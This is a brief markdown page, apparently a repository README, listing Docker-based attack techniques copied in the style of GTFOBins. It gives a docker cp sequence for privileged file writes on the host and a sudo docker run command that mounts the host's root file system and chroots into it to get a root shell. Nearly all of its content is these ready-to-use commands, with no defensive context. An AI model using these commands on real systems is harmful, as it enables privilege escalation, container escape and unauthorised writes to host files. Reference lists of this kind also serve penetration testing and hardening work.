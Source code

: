 # Docker Based Attacks
This attacks are focused on exploiting Docker. [Docker exploits](https://gtfobins.github.io/gtfobins/docker/). 


# Attack Set-up

### Command
1. File write
   - It writes data to files, it may be used to do privileged writes or write files outside a restricted file system. 
   - Write a file by copying it to a temporary container and back to the target destination on the host.
```bash
   CONTAINER_ID="$(docker run -d alpine)" # or existing
   TF=$(mktemp)
   echo "DATA" > $TF
   docker cp $TF $CONTAINER_ID:$TF
   docker cp $CONTAINER_ID:$TF file_to_write
```

2. Host shell in Docker
   - It can be used to break out from restricted environments by spawning an interactive system shell.
   - The resulting is a root shell.
```bash
   sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
